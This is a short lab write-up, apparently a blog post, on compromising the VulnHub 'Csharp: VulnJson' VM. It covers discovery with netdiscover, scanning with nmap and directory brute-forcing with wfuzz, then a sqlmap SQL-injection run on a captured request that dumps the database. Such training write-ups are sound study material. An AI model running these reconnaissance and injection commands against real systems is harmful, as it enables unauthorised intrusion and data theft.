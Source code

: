 ```yaml
---
layout: post
title: "Csharp: VulnJson"
date: 2016-05-05 15:44:32 -0500
comments: true
categories: [vulhub]
---
```


From [Vulhub](https://www.vulnhub.com/entry/csharp-vulnjson,134/)

###Tools:

* netdiscover
* Nmap
* Wfuzz
* Burp
* Sqlmap



<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/vulnjson/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.175 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.175 -p-`

{% img  /images/blog/vulhub/vulnjson/Selection_004.png   [title manually exploit [alt text]] %}


Use wfuzz to burte force hidden path of the server


```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.79.175/FUZZ 2>/dev/null

```

{% img  /images/blog/vulhub/vulnjson/Selection_002.png   [title manually exploit [alt text]] %}

looks like /bin is a hidden path. Lets check it.


{% img  /images/blog/vulhub/vulnjson/Selection_003.png   [title manually exploit [alt text]] %}

Sqlmap tips

from [Marudhamaran Gunasekaran](https://vimeo.com/96799028)

```
How do I test a log in protected website with sqlmap?
use the --cookie parameter / or capture the request, pass it on with the -r parameter / or use the --auth-type=ATYPE, --auth-cred=ACRED, and --auth-cert=ACERT parameters
How do I test a website with sqlmap that requires authentication?
use the --cookie parameter / or capture the request, pass it on with the -r parameter / or use the --auth-type=ATYPE, --auth-cred=ACRED, and --auth-cert=ACERT parameters
How do I test a website with sqlmap that uses JSON data?
automatically works with JSON
How do I test a website with sqlmap that uses XML data?
use the custom injection paramter pointer *
How do I test a website with sqlmap that uses SSL?
use the --force-ssl parameter
How do I tell sqlmap to try harder?
use the --level and --risk parameters
How do I automate a sql map scan?
use the --batch and --crawl 3
```

go to the http://192.168.79.175, then search the users and use burp to record the traffic.

{% img  /images/blog/vulhub/vulnjson/Selection_005.png   [title manually exploit [alt text]] %}

Then click the traffic content in the burp and right click it and copy to file, name it as test.txt.

{% img  /images/blog/vulhub/vulnjson/Selection_006.png   [title manually exploit [alt text]] %}

Then in the terminal, we try:

```
sqlmap -r test.txt  --level 5 --risk 3 --threads 10 -p "username" --dump
```
since there is a parameter username in the post request, so we use that as a parameter for sqlmap


{% img  /images/blog/vulhub/vulnjson/Selection_007.png   [title manually exploit [alt text]] %}

Now the sqlmap dump all items I created.

DONE
